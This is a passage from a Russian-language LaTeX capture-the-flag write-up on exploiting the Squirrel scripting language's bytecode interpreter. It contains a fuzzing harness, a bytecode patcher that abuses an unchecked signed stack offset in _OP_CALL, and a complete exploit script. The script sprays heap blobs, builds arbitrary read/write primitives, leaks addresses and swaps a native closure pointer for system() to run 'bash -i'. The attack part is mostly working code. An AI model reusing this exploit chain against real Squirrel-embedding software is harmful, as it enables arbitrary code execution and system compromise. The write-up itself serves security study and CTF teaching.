        1, /* nparameters */
        0, /* nfunctions */
        0, /* noutervalues */
        0, /* nlineinfos */
        0, /* nlocalvarinfos */
        0 /* ndefaultparms */
    );
    static_assert(sizeof(func->_instructions[0]) == 
    		sizeof(*bytecode), "sizeof check");

    memcpy(func->_instructions, bytecode, count * sizeof(SQInstruction));
    // make sure it terminates at the end
    func->_instructions[count] = {_OP_RETURN, 255}; 
    func->_name = SQString::Create(_ss(vm), "fuzz");
    func->_sourcename = SQString::Create(_ss(vm), "fuzz");
    func->_stacksize = 1024;
    func->_varparams = 0;

    return SQClosure::Create(_ss(vm), func, 
    		_table(vm->_roottable)->GetWeakRef(OT_TABLE));
}

// the entry point for libFuzzer
extern "C" int LLVMFuzzerTestOneInput(const uint8_t *Data, size_t Size) {
    const size_t instrSize = sizeof(SQInstruction);
    const auto count = Size / instrSize;
    auto vm = sq_open(1024);
    auto closure = closureFromBytes(vm, 
    		reinterpret_cast<const SQInstruction*>(Data), count);

    if (getenv("FUZZ_DUMP")) {
        puts("DUMPING");
        vm->Push(closure);
        sqstd_writeclosuretofile(vm, "crash.cnut");
        sq_close(vm);
        exit(0);
    }

    SQRESULT result;
    vm->Push(closure);
    sq_pushroottable(vm);

    result = sq_call(vm, 1, 0, 1);
    sq_pop(vm, 1);
    if (SQ_SUCCEEDED(result)) {
        printf("Done! :) \n");
    }
    else {
        printf("Error! :/\n");
    }

    sq_close(vm);

    return 0;
}
\end{lstlisting}

Чтобы собрать наш фаззер мы можем поменять \verb|squirrel/sq/CMakeLists.txt| (полный лог краша в файлах райтапа)
\begin{lstlisting}
// squirrel/sqstdlib/sqstdio.cpp, line 354
if(us == SQ_BYTECODE_STREAM_TAG) { //BYTECODE
    sqstd_fseek(file,0,SQ_SEEK_SET);
    if(SQ_SUCCEEDED(sq_readclosure(v,file_read,file))) {
        sqstd_fclose(file);
        return SQ_OK;
    }
}
else { //SCRIPT
\end{lstlisting}

и собрать его:
\begin{lstlisting}
$ cd squirrel
$ mkdir build_debug && cd build_debug
$ cmake -G Ninja -DCMAKE_EXPORT_COMPILE_COMMANDS=1 --build . --config Debug -DCMAKE_C_COMPILER=clang -DCMAKE_CXX_COMPILER=clang++ -- ..
$ ninja
...
$ ./bin/sq_fuzz
...
\end{lstlisting}

Если проанализировать это падание, то можно увидеть, что интерпретатор пытается залезть в смещение $170143242$ и отсюда можно понять, что аргументы смещения никак не проверяются. Сразу же появляется желание залезть "назад" в стеке и записать туда что-то хорошее, шелл-код, к примеру. Но появляется проблема - аргумент \verb|arg1|, который воспринимается знаковым, везде используется только для чтения из стека, а не для записи в него. Но если еще немного повтыкать в код, то можно увидеть, что в некоторых местах, к примеру в \verb|sarg[023]| другие аргументы также интепретируются как знаковые, что дает пространство для маневра. Итак, будем действовать через опкод \verb|_OP_CALL|:
\begin{lstlisting}[language=C++,
                   directivestyle={\color{black}}
                   emph={int,char,double,float,unsigned},
                   emphstyle={\color{blue}}
                  ]
case _OP_CALL: {
        SQObjectPtr clo = STK(arg1);
        switch (sq_type(clo)) {
        case OT_CLOSURE:
            _GUARD(StartCall(_closure(clo), sarg0, arg3, _stackbase+arg2, false));
            continue;
// bool SQVM::StartCall(SQClosure *closure,SQInteger target,SQInteger args,SQInteger stackbase,bool tailcall)
\end{lstlisting}

Аргумент отсюда используется как аргумент \verb|target| в функции \verb|StartCall|. Он содержит смещение в стеке по которому лежит возвращаемое функцией значение. Звучит так, как будто это можно использовать для записи на стек. Попробуем.

\textbf{Компилятор сплойта}

Писать сплойт в байт-коде незнакомого языка - такое себе занятие, поэтому проще написать "компилятор", который будет "праивльно" компилировать код. Примерный план: ищем вызовы функции \verb|setMinusN|, после чего меняем аргумент, отвечающий за возвращаемое значение, на $-N$. Попробуем реализовать:
\begin{lstlisting}[language=C++,
                   directivestyle={\color{black}}
                   emph={int,char,double,float,unsigned},
                   emphstyle={\color{blue}}
                  ]
// this basically just compiles `exploit.nut` without calling it
auto vm = sq_open(1024);
sq_setprintfunc(vm, printfunc, errorfunc);

sq_pushroottable(vm);
sqstd_register_bloblib(vm);
sqstd_register_mathlib(vm);
sqstd_register_stringlib(vm);

CHECK(vm, sqstd_loadfile(vm, "./exploit.nut", SQTrue));
auto exploitFunc = _closure(vm->Top())->_function;
debug("stack %lld", exploitFunc->_stacksize);

// patch CALL instructions for special features
for (int pidx = 0; pidx < exploitFunc->_ninstructions; ++pidx) {
    // before a call, there is a PREPCALLK opcode that loads the function
    // we require it to find the function name
    SQInstruction& prepcall = exploitFunc->_instructions[pidx];
    if (prepcall.op != _OP_PREPCALLK) continue;
    const char* name = _string(exploitFunc->_literals[prepcall._arg1])->_val;

    // if we have found a PREPCALLK, search for the actual CALL instruction that uses that function
    SQInstruction* call = NULL;
    for (int cidx = pidx; cidx < exploitFunc->_ninstructions; ++cidx) {
        SQInstruction* c = exploitFunc->_instructions + cidx;
        if (c->op == _OP_CALL && c->_arg1 == prepcall._arg0) {
            call = c;
            break;
        }
    }

    // if the function matches our naming scheme, patch the call
    if (strncmp(name, "setMinus", strlen("setMinus")) == 0) {
        int idx = -atoi(name + strlen("setMinus"));

        call->_arg0 = idx;
        debug("patched call to %s", name);
    }
}
\end{lstlisting}

Еще неплохо было бы контролировать размер стека. Благо, в Squirrel функции сами сообщают, какой размер стека им нужен еще на этапе вызова. Поэтому пропатчим все функции \verb|stackN|, чтобы они выделяли стек размером $N$ байт. Теперь можно просто писать патченный код обратно в файл, запускать и получать долгожданный флаг!
\begin{lstlisting}[language=C++,
                   directivestyle={\color{black}}
                   emph={int,char,double,float,unsigned},
                   emphstyle={\color{blue}}
                  ]
// patch function stack size
for (int fidx = 0; fidx < exploitFunc->_nfunctions; ++fidx) {
    auto func = _funcproto(exploitFunc->_functions[fidx]);
    if (sq_type(func->_name) != OT_STRING) continue;

    const char* name = _string(func->_name)->_val;
    if (strncmp(name, "stack", strlen("stack")) == 0) {
        int size = atoi(name + strlen("stack"));
        func->_stacksize = size;
        debug("adjusted stack size of %s", name);
    }
}

sqstd_writeclosuretofile(vm, "exploit.cnut");
\end{lstlisting}

\textbf{Сам сплойт}

Ну что же, компилятор готов. Теперь остается только написать скрипт на Squirrel, который правильно "воспользуется" этим компилятором.

Придумаем алгоритм:
\begin{itemize}
\item Выделяем много BLOB-обьектов. В какой-то момент место в куче начнет заканчиваться и они начнут выделяться в конце
\item Расширяем стек. Мы точно зацепим какой-то из наших BLOB-обьектов.
\end{itemize}
\begin{lstlisting}
HEAP
some data
BLOB OBJECT
...
BLOB OBJECT
BLOB data
BLOB OBJECT
BLOB data
BLOB OBJECT
BLOB data
BLOB OBJECT
BLOB data
BLOB OBJECT
BLOB data
BLOB OBJECT
BLOB data
BLOB OBJECT
BLOB data
BLOB OBJECT
BLOB data
BLOB OBJECT
BLOB data
NEW STACK
\end{lstlisting}
\begin{itemize}
\item После этого мы можем потереть один из последних BLOB-обьектов, что даст нам примитив приятнее, чем был изначально. К сожалению, изменить размер мы не можем, потому что можем писать только \verb|SQObjectPtr|, который имеет размер 16 байт
\end{itemize}
BLOB-обьект выглядит примерно так:
\begin{lstlisting}[language=C++,
                   directivestyle={\color{black}}
                   emph={int,char,double,float,unsigned},
                   emphstyle={\color{blue}}
                  ]
private:
    SQInteger _size;
    SQInteger _allocated;
    SQInteger _ptr;
    unsigned char *_buf;
    bool _owns;
\end{lstlisting}
Поэтому при попытке перезаписи \verb|_size| перед ним будет записан тег типа, что приведет к повреждению всего обьекта и, как следствие, падению программы. Поэтому лучше перезаписать \verb|_ptr|. Тег типа затем перезапишет \verb|_allocated|, но поскольку тег для целых чисел огромен ($0x5000002$), это гарантирует, что емкости буфера всегда будет достаточно для того, что мы хотим сделать.

Теперь мы можем читать и писать по произвольному смещнию с помощью \verb|_ptr|. Для начала стоит организовать утечку vtable, чтобы получить адрес текстового сегмента библиотеки, а потом допишем примитивы, чтобы получить полный контроль над чтением и записью. 

Чтобы заспавнить себе шелл мы достаем адрес замыкания и перезаписываем его на адрес функции \verb|system| внутри библиотеки Squirrel'a. В итоге, получаем вот такой вот сплойт:
\begin{lstlisting}
local OT_INTEGER = 0x5000002;
local OT_NATIVECLOSURE = 0x8000200;

# declare some functions for the compiler (these are replaced by the patcher)
# function stack2048();
function debugtrap(...) {}

# setMinus8 will write whatever we give it as argument to offset -8 in the stack
# (calls to this function are modified by the patcher)
function setMinus8(x) {
  return x;
}

# make blob allocations after stack
local blobs = array(1000)
for(local i = 0; i < blobs.len(); ++i) {
  blobs[i] = blob(0x20);
}
local buffer = blob(0x20);
local victim = blob(0x20)

# increase stack 
# after this, the stack should be located right after the last blob
stack2048()

# grow the blob buffer by overwritting capacity
# this sets the blob's _capacity to OT_INTEGER and _ptr to 0x1000
setMinus8(1000);
victim.writen(0, 'c')
printf("size %d\n", victim.len())

# set the _ptr to -0x40, where we find a vtable (of the blob object)
setMinus8(-0x40)
debugtrap(victim)
local vtable = victim.readn('l')
printf("vtable %#x\n", vtable)

# build a better primitive:
# we will scan backward to find the second-last allocated blob
# we can identify it by checking for the vtable ptr
local idx = -0x40
while (true) {
      idx -= 0x8;
      setMinus8(idx);
      if (victim.readn('l') == vtable) {
      break
      }
}
printf("found buffer blob at offset -%#x\n", -idx)

# now we can directly change the size of the 2nd-last blob (buffer) using the corrupt blob (victim)
victim.writen( 0x1337, 'l')
printf("buffer size %x\n", buffer.len())

# since buffer is at a lower heap address than victim, 
# the victim blob object is inside the data of buffer 
#
# we can control the victim more easily using buffer
# find the victim inside the buffer block
while (true) {
      if (buffer.readn('l') == vtable) break;
}
local victimIdx = buffer.tell();
buffer.seek(victimIdx + 0x18)
local victimBuf = buffer.readn('l')
printf("found victim: offset %#x, buf %#x\n ", victimIdx, victimBuf);

# set the address that victim will read from / write to
function setaddr(addr) {
  buffer.seek(victimIdx);
  buffer.writen(0x1000, 'l'); # size
  buffer.writen(0x1000, 'l'); # allocated
  buffer.writen(0, 'l'); # ptr
  buffer.writen(addr, 'l'); # buf
}

# read a long from the absolute addr
function read(addr) {
  setaddr(addr);
  return victim.readn('l');
}

# read a character from the absolute addr
function readc(addr) {
  setaddr(addr);
  return victim.readn('c');
}

# write a long to the absolute addr
function write(addr, v) {
  setaddr(addr);
  return victim.writen(v, 'l');
}

# find the address of a string starting at addr
# the argument is the uppercase version of the string to find
# this avoids finding the literal itself
function findChars(addr, str) {
  while (true) {
    local found = true;
    foreach (i,c in str) {
      if (readc(addr + i) != (c ^ 0x20)) {
        found = false;
        break;
      };
    }
    if (found) break;

    addr++;
  }
  return addr;
}

# find a 8-byte aligned word starting from the given addr
function findAlignedQWord(addr, v) {
  while (read(addr) != v) {
    addr += 8;
  }
  return addr;
}

# find an object with the given type
function findObject(addr, type) {
  return findAlignedQWord(addr, type)
}

# find an integer with the given value
function findIntegerObj(addr, val) {
  while (read(addr) != OT_INTEGER || read(addr + 8) != val) {
    addr += 8;
  }
  return addr;
}


# first, locate the address of "marker" (marker will be put on the stack)
# since the stack is located after our blobs, we can start searching from the "victimBuf" address
local marker = 0x13371337;
local stackAddr = findIntegerObj(victimBuf, marker);
printf("found stack at %#x\n", stackAddr);

# we will putna NativeClosure on the stack (escape)
# we can then replace the function pointer of the NativeClosure with system
local escape_func = escape;
local escape_nc = read(findObject(stackAddr, OT_NATIVECLOSURE) + 8);

# the function pointer is located at offset + 0x68
# this leaks the location of the sqstdlib shared object in memory
local escape_faddr = read(escape_nc + 0x68)
printf("escape nativeclosure %#x func %#x\n", escape_nc, escape_faddr);

# search for SYSTEM func (note: all caps to not cause false references)
# sqstdlib also contains the sqstdsystem lib, which will have an object associating SYSTEM with the _SYSTEM func
# we first find that string, and then find the reference to it
local SYSTEM_STR = findChars(escape_faddr, "SYSTEM")
printf("SYSTEM str: %#x\n", SYSTEM_STR);

local strRef = findAlignedQWord(vtable & ~0xfff, SYSTEM_STR);
printf("str ref at: %#x\n", strRef);
local SYSTEM_ADDR = read(strRef + 8)
printf("SYSTEM at: %#x\n", SYSTEM_ADDR);

// replace escapeFunc ref
write(escape_nc + 0x68, SYSTEM_ADDR)

// call it
escape_func("bash -i 2>&1")


debugtrap(escape_func)
\end{lstlisting}

Который после компиляции и отправки на сервер дает нам полценный bash-шелл и возможность прочитать флаг \verb|oren_ctf_PrintNightmare!|

%----------------------------------------------------------------------------------------

\end{document}